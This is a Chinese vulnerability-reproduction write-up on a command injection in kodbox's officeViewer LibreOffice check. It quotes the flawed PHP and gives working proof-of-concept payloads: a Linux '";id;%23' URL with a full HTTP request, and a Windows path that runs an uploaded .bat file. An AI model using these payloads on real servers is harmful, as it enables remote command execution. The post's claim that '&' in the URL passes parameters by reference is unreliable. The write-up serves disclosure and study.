 

# 奇安信攻防社区 - 某 cms 代码注入漏洞复现与分析

# 漏洞前言：

kodbox 是一个网络文件管理器。是一款功能丰富的私有云在线文档管理系统。它可以帮助你快速搭建一个私有网盘/云桌面，方便地管理和共享文件。它也是一个网页代码编辑器，允许您直接在网页浏览器中开发网站。12 月 16 日发布漏洞公告 kalcaddle kodbox 中发现命令注入漏洞，影响版本为小于 1.48。

# 漏洞环境：

本地环境搭建：

源码下载：https:*//github.com/kalcaddle/kodbox*

下载 1.47 版本源码进行搭建，需要 php 版本为 5 以上，这里不做过多赘述。

![image-20231220145426948](assets/1709861081-ec13726d83b12aea24bf538e65c036c1.jpg)

# 漏洞分析：

根据公告内容：受此漏洞影响的是文件 plugins/officeViewer/controller/libreOffice/index.class.php 的功能检查，对参数 soffice 的操纵会导致命令注入。

![image-20231220155207246](assets/1709861081-2bff4ee3fc05ea31607ca1f0bfb7e59c.jpg)

那么进一步跟进代码进行查看：

先查看主函数：

![image-20231220155537091](assets/1709861081-66bf81f291b3ff0f5b3a73d277d7c589.jpg)

主函数作用是在用户访问文件的时候首先获取处理文件插件功能的插件，再检查是否允许使用名为 'LibreOffice' 的扩展。getSoffice() 用于检查能否成功获取到 LibreOffice 的可执行文件路径，最后通过传入的 filepath 获取指定文件信息。

跟进 getSoffice() 方法：

![image-20231220164944113](assets/1709861081-b68966686d9b12d0022c498f711e8ffc.jpg)

`getSoffice` 方法用于获取 LibreOffice 的可执行文件路径的函数。它首先从配置中获取 LibreOffice 的安装路径，然后通过 `checkBin` 方法检查该路径是否有效。跟进 checkBin()：

![image-20231220185257407](assets/1709861081-3f6a3a3928500f55cdbf4110b35219dc.jpg)

`checkBin` 方法用于检查指定可执行文件是否可用。通过执行 `shell_exec` 来尝试运行指定的可执行文件。

其中使用`shell_exec`函数执行了命令并将输出结果存储在`$result`变量中。

![image-20231227171859395](assets/1709861081-04b6840ff0d90ec57ec87036c5441f06.jpg)

```php
private function checkBin($bin,$check){
    $code = Cache::get($bin);
    if ($code) return $code;
    $result = shell_exec($bin.' --help');  // ' 2>&1'
    $code = strstr($result,$check) ? true : false;
    Cache::set($bin, $code);
    return $code;
}
```

可以看到这里$bin 可控。

下面查看哪里调用了 getSoffice()，找到函数 check()；

![image-20231220162324449](assets/1709861081-5d09ea63ede8b5b9289f2098db93795a.jpg)

```php
public function check(){
       $bin = $this->in['soffice'];
       //从 HTTP 请求中获取名为 `soffice` 的参数并将其值赋给变量 $bin
    $plugin = Action($this->pluginName);
       if(!empty($bin)) {
           $plugin->setConfig(array('lbSoffice' => $bin));
       }
    if(isset($_GET['check'])){
       if(!function_exists('shell_exec')) {
          show_json(LNG('officeViewer.libreOffice.execDisabled'), false);
       }
       $msg = '';
           if(!$soffice = $this->getSoffice()) {
          $msg = LNG('officeViewer.libreOffice.checkError');
           }
           show_json($msg, !!$soffice);
    }
       Action($this->pluginName)->includeTpl('static/libreoffice/check.html');
}
```

可以看到通过此函数先从 HTTP 请求中获取名为 `soffice` 的参数，并将其值赋给变量 `$bin`，下来检查是否存在名为 "check" 的 GET 参数，如果存在才会进入条件语句的代码块，检查`shell_exec()` 函数是否可用，接下来调用`getSoffice()` 方法。

![image-20231221152920377](assets/1709861081-3555ffc4565df50a8c85e226f10a8fdb.jpg)

在`getSoffice()` 方法中`isset($data['soffice'])` 检查数组 `$data` 中是否存在键名为 `'soffice'` 的元素，如果存在返回 true，并将$data\['soffice'\]\` 的值赋给$bin。

![image-20231227102617040](assets/1709861081-c6f092e73a0f4dd1ffeb16336f2c3a69.jpg)

拼接 soffice 参数：plugin/officeViewer/libreOffice/index/check&soffice

使用 `&` 连接 check 和 soffice 参数可以将参数以引用传递的方式传递给函数或方法。

（在 php 中两个参数使用 `&` 连接参数是为了以引用传递的方式将参数传递给函数或方法。PHP 函数和方法中的参数传递分为按值传递、引用传递。默认情况下 PHP 函数和方法中的参数传递是按值传递（pass by value）的，也就是说会创建参数的副本并传递给函数或方法。这意味着在函数或方法内部对参数进行修改不会影响到原始的参数。然而，有时候我们希望在函数或方法内部能够修改原始的参数。这时可以使用引用传递（pass by reference），在参数前面加上 `&` 符号来实现。这样，当参数在函数或方法内部被修改时，原始的参数也会被修改。）

![image-20231227162319706](assets/1709861081-74e003c4ab60677d2dd31d4241644078.jpg)

```php
$bin = '"'.trim(iconv_system($bin)).'"';    // win 路径空格处理
```

在 windows 环境下对$bin 特殊处理：getSoffice() 中$bin 参数会被两个双引号闭合，且使用`trim()` 函数删除 `$bin` 变量字符串首尾的空白字符，包括空格、制表符、换行符等。iconv\_system 函数用于将“$bin”字符进行编码转换。

![image-20240102161322392](assets/1709861081-e6739b82ba21602b6a50c2278f5f2237.jpg)

windows 环境下可以通过传入文件路径执行 bat 文件实现远程命令执行。

测试 poc 为：

```php
plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

linux 环境下可以通过 soffice 传入命令通过闭合双引号实现命令注入。

测试 poc 为：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=";id;%23&check=1
```

# 漏洞利用：

**linux 系统下漏洞利用：**

![image-20231227162025164](assets/1709861081-5d7914728a68a750e41aeb2ab79f73d5.jpg)

GET /kodbox/index.php?plugin/officeViewer/libreOffice/index/check&soffice=";id;%23&check=1 HTTP/1.1  
Host: 192.168.145.131  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: KOD\_SESSION\_ID=9fbbb7a218e0d680fab1ce38b9879adc; CSRF\_TOKEN=6jfthGWYzrs5R8Xr; kodUserID=1  
Connection: close

![image-20231227161617161](assets/1709861081-8ce64232dd4b389a2f70e830c9233a8a.jpg)

**windows 系统下：**

利用条件：1、需要权限可上传写入文件到服务器中。2、需要有可执行文件的绝对路径。

一、进入后台上传 poc 文件

![image-20231220145907781](assets/1709861081-94288ef67f9fd492cbf3a0a51e11c3ee.jpg)

poc 内容为：

![image-20231220150009307](assets/1709861081-fa1164039e4529f92f5fd7f313345328.jpg)

poc 上传的绝对路径为：

```php
D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

![image-20231220154626142](assets/1709861081-816765495d8b13990fa7e925fa3a2c15.jpg)

二、执行 poc.bat：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

![image-20231220155010220](assets/1709861081-45fbd58f68549bad4768bd95aad7f537.jpg)

执行结果：

![image-20231220155044498](assets/1709861081-d0aafeb91891b85e21e7494daeb0a1a6.jpg)
